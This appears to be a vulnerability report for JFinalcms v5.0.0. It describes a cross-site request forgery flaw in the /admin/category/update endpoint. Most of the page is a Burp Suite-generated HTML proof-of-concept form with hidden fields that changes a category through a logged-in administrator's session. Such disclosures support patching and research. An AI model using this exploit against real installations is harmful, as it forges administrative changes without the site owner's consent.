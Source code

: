 target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

JFinalcms v5.0.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /admin/category/update


![图片](https://github.com/nightcloudos/new_cms/assets/76925342/3f42daad-6487-4fe8-b65c-6ce2e60a5f72)

create poc

![图片](https://github.com/nightcloudos/new_cms/assets/76925342/764d57a4-7407-4ccd-a6b3-dafcf244bcbf)

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:8888/admin/category/update" method="POST">
      <input type="hidden" name="id" value="1125" />
      <input type="hidden" name="name" value="cs123" />
      <input type="hidden" name="parentId" value="" />
      <input type="hidden" name="modelId" value="5" />
      <input type="hidden" name="listTemplate" value="case&#95;list&#46;html" />
      <input type="hidden" name="detailTemplate" value="case&#95;detail&#46;html" />
      <input type="hidden" name="cat" value="cs" />
      <input type="hidden" name="code" value="cs" />
      <input type="hidden" name="status" value="1" />
      <input type="hidden" name="introduction" value="" />
      <input type="hidden" name="subname" value="" />
      <input type="hidden" name="remark" value="" />
      <input type="hidden" name="outlink" value="" />
      <input type="hidden" name="ico" value="" />
      <input type="hidden" name="file" value="" />
      <input type="hidden" name="image" value="" />
      <input type="hidden" name="file" value="" />
      <input type="hidden" name="title" value="" />
      <input type="hidden" name="keywords" value="" />
      <input type="hidden" name="description" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

successed

![图片](https://github.com/nightcloudos/new_cms/assets/76925342/a7685ca5-8fd6-47e3-a422-33783f78ac0b)
